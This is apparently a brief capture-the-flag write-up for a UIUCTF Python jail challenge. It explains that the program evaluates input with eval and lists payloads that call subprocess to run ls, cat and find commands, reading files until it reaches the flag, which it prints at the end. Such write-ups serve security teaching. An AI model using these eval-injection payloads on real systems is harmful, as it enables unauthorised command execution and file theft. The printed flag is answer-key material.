

You have to exit the jail of a python program
The program only does eval to get the values so with the following you get the flag:

print(__import__("subprocess").getoutput("ls"))
print(__import__("subprocess").getoutput("cat main.py"))
print(__import__("subprocess").getoutput("cat README.md"))
print(__import__("subprocess").getoutput("find / -name flag"))
print(__import__("subprocess").getoutput("cat /flag"))
uiuctf{na1v3_0r_mal1ci0u5_chang3?}